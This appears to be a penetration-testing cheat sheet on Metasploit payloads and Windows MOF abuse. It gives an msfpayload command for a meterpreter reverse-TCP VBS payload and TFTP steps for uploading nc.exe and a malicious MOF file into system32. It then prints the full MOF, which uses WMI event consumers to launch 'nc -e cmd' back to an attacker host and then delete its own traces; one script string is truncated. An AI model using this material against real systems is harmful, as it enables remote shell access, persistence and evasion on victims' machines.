 # **MSFVenom & Metasploit**

[http://poppopret.blogspot.com/2011/09/playing-with-mof-files-on-windows-for.html](http://poppopret.blogspot.com/2011/09/playing-with-mof-files-on-windows-for.html)  
msfpayload windows/meterpreter/reverse_tcp LHOST=<ip> R | msfencode -e generic/none -t vbs  
/windows/system32/eula.txt store it's version in eula.txt  
Works on XP SP3 only  
tftp x.x.x.x  
>mode binary  
>put nc.exe windows/system32/nc.exe  
>put rshell.mof windows/system32/wbem/mof/rshell.mof  
>cd DOCUM~1  
cd  
  
rshell.mof  
------------------------------------------  
class MyClasshack  
{  
[key] string Name;  
};  
class ActiveScriptEventConsumer : __EventConsumer  
{  
[key] string Name;  
[not_null] string ScriptingEngine;  
string ScriptFileName;  
[template] string ScriptText;  
uint32 KillTimeout;  
};  
instance of __Win32Provider as $P  
{  
Name = "ActiveScriptEventConsumer";  
CLSID = "{266c72e7-62e8-11d1-ad89-00c04fd8fdff}";  
PerUserInitialization = TRUE;  
};  
instance of __EventConsumerProviderRegistration  
{  
Provider = $P;  
ConsumerClassNames = {"ActiveScriptEventConsumer"};  
};  
Instance of ActiveScriptEventConsumer as $cons  
{  
Name = "ASEC";  
ScriptingEngine = "JScript";  
ScriptText = "\ntry {var s = new ActiveXObject(\"Wscript.Shell\");\ns.Run(\"nc -e cmd x.x.x.x  
};  
Instance of ActiveScriptEventConsumer as $cons2  
{  
Name = "qndASEC";  
ScriptingEngine = "JScript";  
ScriptText = "\nvar objfs = new ActiveXObject(\"Scripting.FileSystemObject\");\ntry {var f1 = objfs.GetFile(\"wbem\\\\mof\\\\good\\\\hack.mof\");\nf1.Delete(true);} catch(err) {};\ntry {\nvar f2 = objfs.GetFile(\"hack.exe\");\nf2.Delete(true);\nvar s = GetObject(\"winmgmts:root\\\\cimv2\");s.Delete(\"__EventFilter.Name='qndfilt'\");s.Delete(\"ActiveScriptEventConsumer.Name='qndASEC'\");\n} catch(err) {};";  
};  
instance of __EventFilter as $Filt  
{  
Name = "instfilt";  
Query = "SELECT * FROM __InstanceCreationEvent WHERE TargetInstance.__class = \"MyClasshack\"";  
QueryLanguage = "WQL";  
};  
instance of __EventFilter as $Filt2  
{  
Name = "qndfilt";  
Query = "SELECT * FROM __InstanceDeletionEvent WITHIN 1 WHERE TargetInstance ISA \"Win32_Process\" AND TargetInstance.Name = \"nc.exe\"";  
QueryLanguage = "WQL";  
};  
instance of __FilterToConsumerBinding as $bind  
{  
Consumer = $cons;  
Filter = $Filt;  
};  
instance of __FilterToConsumerBinding as $bind2  
{  
Consumer = $cons2;  
Filter = $Filt2;  
};  
instance of MyClasshack as $MyClass  
{  
Name = "ClassConsumer";  
};  
  
------------------------------------------------------------------------